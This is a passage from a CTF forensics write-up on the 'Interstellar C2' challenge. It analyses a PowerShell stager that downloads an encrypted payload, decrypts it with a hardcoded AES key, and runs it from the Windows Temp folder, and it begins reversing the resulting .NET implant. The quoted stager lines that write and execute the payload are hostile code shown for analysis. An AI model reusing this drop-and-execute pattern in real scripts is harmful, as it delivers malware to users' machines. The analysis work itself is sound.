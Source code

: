 ```powershell
${decD} = ${Ms}.ToArray.Invoke()
${CS}.Write.Invoke(${dECD}, 0, ${dECd}.LENgTH);
${DeCd} | .'Set-Content' -Path "$env:temp\tmp7102591.exe" -Encoding 'Byte'
& "$env:temp\tmp7102591.exe"
```

The IP address 64[.]226[.]84[.]2200 is hosting a file with some random numbers and letters, which gets downloaded to the Windows Temp folder. That file is then decrypted with a hardcoded key and IV. Looking at the Microsoft Documentation, we see that it's probably using CBC mode. We could decrypt the payload with this script, but I'll rewrite stuff in Python.

```python
#!/usr/bin/env python3
from Crypto.Cipher import AES

with open('94974f08-5853-41ab-938a-ae1bd86d8e51', 'rb') as fd:
    enc = fd.read()

key = bytes.fromhex('00010100000101000001010001010000')
iv = bytes.fromhex('00010100000000010001010000010101')
cipher = AES.new(key, AES.MODE_CBC, iv=iv)
dec = cipher.decrypt(enc)
with open('./tmp7102591.exe', 'wb') as fd:
    fd.write(dec)
```

If I run my script, we can see that we get a .NET executable back.

```shell
kali@transistor:~/ctf/cyber-apocalypse-2023/forensics/interstellar_c2$ ls -la
total 14984
drwxr-xr-x  3 kali kali    4096 Mar 25 17:20 .
drwxr-xr-x 11 kali kali    4096 Mar 25 17:07 ..
-rw-r--r--  1 kali kali   18960 Mar 25 17:20 94974f08-5853-41ab-938a-ae1bd86d8e51
drwxr-xr-x  2 kali kali    4096 Mar 25 17:13 artifacts
-rw-r--r--  1 kali kali 8725820 Mar  9 15:09 capture.pcapng
-rw-rw-rw-  1 kali kali 6560627 Mar 20 00:34 forensics_interstellar_c2.zip
-rw-r--r--  1 kali kali   18960 Mar 25 17:20 tmp7102591.exe
kali@transistor:~/ctf/cyber-apocalypse-2023/forensics/interstellar_c2$ file tmp7102591.exe
tmp7102591.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

## Stage 2: Reversing the Implant
I'll move this over to my [FLARE-VM](https://github.com/mandiant/flare-vm) which has [dnSpy](https://github.com/dnSpyEx/dnSpy). We covered this in my writeup of [Perfect Match X-treme](https://notateamserver.xyz/sekaictf-writeups/#perfect-match-x-treme) from Sekai CTF, but because the executable is written in .NET, it's much easier to reverse due to reliance on the Common Language Runtime. When we get the decompiled output back, it's very clear that this is some kind of C2 implant or beacon.

![Pasted_image_20230325162636.png](https://an00brektn.github.io/img/cyber-apocalypse-23/Pasted%20image%2020230325162636.png)

I won't go through every function here, but we can follow the execution of the program. The `Main()` function directly calls a new function called `Sharp()`.

